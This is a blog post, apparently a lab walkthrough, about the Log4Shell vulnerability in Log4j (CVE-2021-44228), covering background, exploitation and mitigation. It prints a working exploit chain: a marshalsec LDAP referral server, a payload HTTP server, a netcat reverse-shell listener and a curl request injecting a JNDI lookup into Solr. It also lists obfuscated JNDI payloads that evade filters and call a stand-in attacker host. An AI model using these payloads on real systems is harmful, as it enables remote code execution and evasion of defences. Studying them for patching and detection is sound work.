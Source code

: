 ```yaml
---
title: CVE-2021-44228 Log4j Exploit - Log4Shell
description: Exploiting Log4j vulnerability, bypasses and mitigation.
author: hum4ng0d
date: 2021-12-14
categories: [Exploit, PoC]
tags: [linux, red team, penetration testing, zeroday, blue team]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/log4shell/log4j.png
  alt: Log4Shell
---
```


`Log4j` took the internet by storm. Any social media app that you open, people will be talking about `log4j` somewhere, somehow. Even the gaming community mentioning `Log4j`. As this attack was noted in the wild to be used against a Minecraft server in an RCE but the reason the Minecraft server was compromised also affects millions of other applications and servers because `Log4j` is used by so many. `Log4j` is an open source Java utility by Apache built into many applications that easily logs user input and performs network lookups within the `JNDI`, to obtain services from `LDAP`. `Log4j` captures a message as a URL, fetches the correct response and can execute code.

This vulnerability, also known as `Log4Shell` can be identified as `CVE-2021-44228`. By the weekend, it was widely known to be a huge concern due to its ease of attacks and the potential to compromise servers giving its attack surface is relatively ubiquitous and used across millions of applications. 

According to the CEO of Cloudflare, Matthew Prince, the exploit has been in the wild at least 9 days before publicly disclosed.

![Log4Shell](/assets/img/log4shell/ceo.png)

<br>

### Exploitation

"LDAP Referrer Server" is used to redirect the initial request of the victim to another location which in this case is our payload server.

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.108.138:8000/#Exploit"
```

While our java payload will be serving on port 8000:

```
python3 -m http.server 8000
```

Listening on port 9999 on attacker machine:

```
nc -lvnp 9999
```

Executing the payload:

```
curl 'http://10.10.99.121:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.108.138:1389/Exploit\}'
```

<br>

![Log4Shell](/assets/img/log4shell/poc.png)

<br>

### Bypasses

Some bypasses from a few sources:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

<br>

### Mitigation

Cloudflare has since already been updated the managed ruleset with `Log4j` detection.

![Log4Shell](/assets/img/log4shell/cloudflarewaf.png)

`log4j` version `2.16.0` has been released and patches this vulnerability (`JNDI` is fully disabled, support for Message Lookups is removed, and the new DoS vulnerability `CVE-2021-45046` is not present anymore).

`log4j-jndi-be-gone`, a simple Java agent from nccgroup can also be used to disable `log4j JNDI` handler covering Java 6 through Java 17.

Github: [log4j-jndi-be-gone](https://github.com/nccgroup/log4j-jndi-be-gone)

<br>

### Learn more:

More stuff: [John Hammond's Youtube video walking through the Log4j exploit on a Minecraft server.](https://www.youtube.com/watch?v=7qoPDq41xhQ)

If you want to learn and practice more on `Log4j`, TryHackMe has a greate room created by John Hammond himself: [TryHackme - Solr: Exploiting Log4j](https://tryhackme.com/room/solar)